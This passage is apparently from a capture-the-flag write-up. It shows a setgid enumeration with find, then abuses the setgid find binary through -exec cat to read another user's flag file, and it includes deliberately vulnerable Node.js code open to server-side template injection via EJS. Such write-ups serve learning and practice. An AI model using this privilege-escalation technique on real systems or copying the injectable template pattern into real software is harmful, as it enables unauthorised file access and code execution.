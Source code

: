 ```
   249143      0 -rw-r--r--   1 root     root            0 Oct 27 17:55 /proc/sys/net/ipv6/fib_notify_on_flag_change
4026532031      0 -r--------   1 root     root            0 Oct 27 17:55 /proc/kpageflags
```

`find` have `sgid` set with user `patch`

```bash
user@finders-keepers-ee7c97f302618b76-58588bf8f6-qr7vp:~$ find / -type f -perm -2000 -ls 2>/dev/null
   409473     72 -rwxr-sr-x   1 root     shadow      72184 Nov 24  2022 /usr/bin/chage
   409523     24 -rwxr-sr-x   1 root     shadow      23136 Nov 24  2022 /usr/bin/expiry
   409724     24 -rwxr-sr-x   1 root     tty         22904 Feb 21  2022 /usr/bin/wall
   527380    276 -rwxr-sr-x   1 root     patch      282088 Mar 23  2022 /usr/bin/find
   417681    288 -rwxr-sr-x   1 root     _ssh       293304 Aug 24 13:40 /usr/bin/ssh-agent
   414294     28 -rwxr-sr-x   1 root     shadow      26776 Feb  2  2023 /usr/sbin/unix_chkpwd
   414265     24 -rwxr-sr-x   1 root     shadow      22680 Feb  2  2023 /usr/sbin/pam_extrausers_chkpwd
```

Use `find` to cat the flag

```bash
user@finders-keepers-8b0326054b0e817f-5b855b966d-qmcsz:~$ find /home/patch/flag.txt -exec cat {} \;
flag{e4bd38e78379a5a0b29f047b91598add}
```


## Color Profile


### SSTI (Nodejs)

Code :

```javascript
app.post('/setColor', (req, res) => {
    const { color } = req.body;
    profile.color = color;
    res.json({ profileColor: color });
});

app.get('/', (req, res) => {
    fs.readFile(path.join(__dirname, 'views', 'index.ejs'), 'utf8', (err, data) => {
        if (err) {
            return res.status(500).send('Internal Server Error');
        }

        const profilePage = data.replace(/<% profileColor %>/g, profile.color);
        const renderedHtml = ejs.render(profilePage, { profileColor: profile.color });
        res.send(renderedHtml);
    });
});
```
